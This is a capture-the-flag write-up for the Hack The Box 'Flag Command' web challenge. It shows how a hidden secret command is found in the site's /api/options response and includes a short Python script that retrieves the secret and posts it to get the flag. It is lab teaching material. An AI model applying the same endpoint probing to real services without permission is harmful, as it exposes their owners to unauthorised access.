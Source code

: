 # Flag Command - HTB Challenge Writeup
## Reconnaissance / Information Gathering
We first receive the Host information: `83.136.255.10:55943`

![image](https://github.com/user-attachments/assets/ec065050-9282-4ba5-bd7e-7d46b1f85283)


Putting this in our web browser, we are faced with a website that is telling a story about being in a alien forest. We are prompted to type 'start' to start our adventure:
![Pasted image 20250502073705](Cybersecurity/Screenshots/Pasted%20image%2020250502073705.png)

Going through the adventure with the available adventure options, we die and have to start again:
![Pasted image 20250502073841](Cybersecurity/Screenshots/Pasted%20image%2020250502073841.png)

We can view the main script for the game in the source code. Here we can find if the game displays 'HTB{', then we win the game:
![Pasted image 20250502074403](Cybersecurity/Screenshots/Pasted%20image%2020250502074403.png)

When trying to put in other JavaScript commands, we are told we can't use other commands, and we must choose from the available options (which are displayed using the command 'help'):
![Pasted image 20250502075240](Cybersecurity/Screenshots/Pasted%20image%2020250502075240.png)

Exploring different avenues, we can find a GET request being sent to '/api/options' in the Network tab of our developer's tool:
![Pasted image 20250502075512](Cybersecurity/Screenshots/Pasted%20image%2020250502075512.png)

Going to this destination, we can find all the command options for when we start the game. At the bottom, we see the secret value:
![Pasted image 20250502075557](Cybersecurity/Screenshots/Pasted%20image%2020250502075557.png)
Secret: `Blip-blop, in a pickle with a hiccup! Shmiggity-shmack`

## Exploitation
We can start the game with 'start', then enter the 'secret' value into the command-line to get the flag:
![Pasted image 20250502075817](Cybersecurity/Screenshots/Pasted%20image%2020250502075817.png)

# Automation with Python
We can write the following script to automate the process of retrieving the secret value, starting the game, and importing the secret command and exporting the flag:
```python
import requests

# Set target base URL and start a session
base_url = 'http://83.136.255.10:55943'
session = requests.Session()

# Load the main page (initialize session)
session.get(base_url)

# Fetch available command options
options_url = f"{base_url}/api/options"
response = session.get(options_url)
data = response.json()

# Extract the secret command from the response
secret = data['allPossibleCommands']['secret'][0]
print(f"Secret command: {secret}")

# Prepare and send the secret command to the server
command_url = f"{base_url}/api/monitor"
headers = {
  "Content-Type": "application/json",
  "Origin": base_url,
  "Referer": base_url + "/"
}
payload = {"command": secret}
response = session.post(command_url, json=payload, headers=headers)

# Extract and print the flag from the response
print("[+] Response from server:")
flag = response.text
flag_start = flag.find("HTB{")
flag_end = flag.find("}", flag_start) + 1
flag = flag[flag_start:flag_end]
print(flag)
```
- First we utilize the `requests` library to send HTTP requests in python
- Then we capture the data from `/api/options` and extract the secret
- We then send a request to the receiving endpoint `/api/monitor` with the necessary headers, as well as our JSON payload
- Lastly, we extract the response from the server and filter out the flag to only respond with the value of the flag

Running the script we get the following:
![Pasted image 20250502090111](Cybersecurity/Screenshots/Pasted%20image%2020250502090111.png)
